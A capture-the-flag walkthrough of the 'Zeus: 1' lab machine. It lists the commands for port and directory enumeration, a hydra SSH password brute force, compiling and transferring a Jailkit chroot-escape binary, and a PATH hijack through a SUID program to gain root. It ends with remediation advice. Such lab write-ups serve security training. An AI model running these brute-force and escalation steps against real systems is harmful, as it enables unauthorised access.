


# Zeus: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.131.170 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | root flag (`/root/root.txt`) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/zeus1-vulnhub-walkthrough/) |

---

## Attack Summary

Zeus:1 hosts FTP, SSH, and HTTP. A hidden comment in a web page reveals a username (`gogu`). SSH brute force yields credentials. The user is confined inside a Jailkit restricted shell. A custom SUID binary (`sysdate`) is exploited through a chroot-escape technique to achieve root.

---

## Methodology

1. Port scan and service enumeration
2. Web enumeration to extract a username from page source
3. SSH credential brute force
4. Jailkit restricted shell analysis and SUID binary discovery
5. Compile and transfer a chroot-escape binary
6. PATH hijack via SUID binary to escape the jail and gain root

---

## Step 1: Port Scanning

```bash
nmap -A 192.168.131.170
```

Results: ports 21 (FTP), 22 (SSH), 80 (HTTP) are open.


---

## Step 2: Web Enumeration

Browse to `http://192.168.131.170`. The homepage shows nothing actionable. Run `dirb` to discover hidden directories:

```bash
dirb http://192.168.131.170
```

`/telecom/` is found. Viewing its page source reveals the name **gogu**, which is used as a username.


---

## Step 3: SSH Brute Force

Use `hydra` to brute force SSH with the discovered username:

```bash
hydra -l gogu -P /usr/share/wordlists/rockyou.txt ssh://192.168.131.170
```

Recovered password: **universal**

---

## Step 4: Initial Access — Restricted Shell

Log in over SSH:

```bash
ssh gogu@192.168.131.170
# Password: universal
```

The shell is restricted (Jailkit). Standard commands are heavily limited. Enumerate the home directory:

```bash
ls -la
```

A SUID binary named `sysdate` is present. It internally calls the `date` command.


---

## Step 5: Compiling the Chroot Escape

On the Kali attacker machine, download and compile the Jailkit chroot-escape PoC as a 32-bit binary:

```bash
# Download the C source from filippo.io (chroot escape PoC)
wget https://filippo.io/...  # obtain bypass.c
gcc bypass.c -o bypass -m32
```

Transfer the binary to the target:

```bash
scp bypass gogu@192.168.131.170:~/bypass
```



---

## Step 6: PATH Hijack and Privilege Escalation

Back inside the restricted shell on the target:

```bash
chmod +x ~/bypass

# Create a fake 'date' script
echo "~/bypass" > ~/date
chmod +x ~/date

# Prepend home directory to PATH so our fake 'date' is found first
export PATH=~:$PATH

# Execute the SUID binary — it calls 'date', hits our fake script, runs bypass
./sysdate
```

The chroot escape fires, escaping the Jailkit jail and dropping a root shell.

---

## Step 7: Root Flag

```bash
cat /root/root.txt
```



---

## Lessons Learned

- Comments and metadata in web page source can leak usernames that are not visible in the rendered UI.
- Jailkit creates a chroot environment; SUID binaries inside it are still exploitable if they call commands by relative name.
- Combining a PATH hijack with a chroot-escape binary is a reliable technique against Jailkit setups.
- Compile exploit binaries on the attacker machine and transfer them — do not rely on compilers being available in a restricted shell.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| Username leaked in HTML comment | Remove all developer comments from production web pages |
| Weak SSH password | Enforce strong passwords or certificate-based authentication; disable password auth |
| SUID binary calling `date` by relative path | Use absolute paths in SUID programs (`/bin/date`) |
| Jailkit chroot escape | Keep Jailkit updated; apply the chroot-escape patches; audit SUID binaries in the jail |
